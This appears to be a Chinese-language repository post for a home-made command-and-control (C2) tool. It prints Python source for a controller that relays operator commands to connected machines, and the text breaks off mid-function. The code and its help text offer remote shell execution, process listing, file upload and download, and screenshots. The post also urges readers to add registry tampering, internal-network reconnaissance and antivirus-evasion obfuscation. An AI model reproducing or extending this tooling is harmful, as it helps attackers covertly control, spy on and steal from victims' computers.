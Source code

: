 这是一个简单的正向连接c2工具。师傅们可根据自己需求开发，增加更多的功能。列如什么写一键写注册表，一键内网信息收集，屏幕交互，混淆过免杀等操作。
反向连接在开发上出现了一些问题

反向连接的控制端如下：

###
import socket
import threading
import subprocess
import os
import logging

logging.basicConfig(level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')

def handle_client(client_socket, client_address):
    try:
        logging.info(f"[+] Accepted connection from {client_address}. Sending welcome message...")
        client_socket.sendall("Welcome to the C2 server!\n".encode('utf-8'))

        # 创建一个线程来处理用户输入
        def get_user_input():
            try:
                while True:
                    cmd_input = input("fox > ").strip()
                    if cmd_input.lower() == 'exit':
                        client_socket.sendall("exit\n".encode('utf-8'))
                        break
                    if cmd_input:
                        client_socket.sendall(cmd_input.encode('utf-8'))
            except Exception as e:
                logging.error(f"Error in user input thread: {e}")
            finally:
                client_socket.close()
                logging.info(f"Closed connection with {client_address} due to user input thread exit.")

        # 启动用户输入线程
        input_thread = threading.Thread(target=get_user_input)
        input_thread.start()

        # 主线程继续接收并处理客户端数据
        while True:
            data = client_socket.recv(1024)
            if not data:
                break
            logging.info(f"Received data from {client_address}: {data.decode('utf-8')}")

            # 处理命令
            command = data.decode('utf-8').strip()
            if command.lower() == 'help':
                client_socket.sendall("Available commands:\n".encode('utf-8'))
                client_socket.sendall("     help       - 显示此帮助消息\n".encode('utf-8'))
                client_socket.sendall("     shell      - 在服务器上执行 shell 命令\n".encode('utf-8'))
                client_socket.sendall("     w          - 列出服务器上正在运行的进程\n".encode('utf-8'))
                client_socket.sendall("     do         - 从服务器下载文件, 你需要指定服务器上的文件路径和要保存的本地路径。如do /path/to/remote/file /local/path/to/save\n".encode('utf-8'))
                client_socket.sendall("     du         - 将文件上传到服务器，需要指定本地文件路径和服务器上的保存路径。如du /local/path/to/file /path/to/remote/save\n".encode('utf-8'))
                client_socket.sendall("     xs         - 截屏并保存到服务器，你需要指定保存路径。如xs /path/to/remote/save\n".encode('utf-8'))
            elif command.lower().startswith('shell '):
                shell_command = command[6:]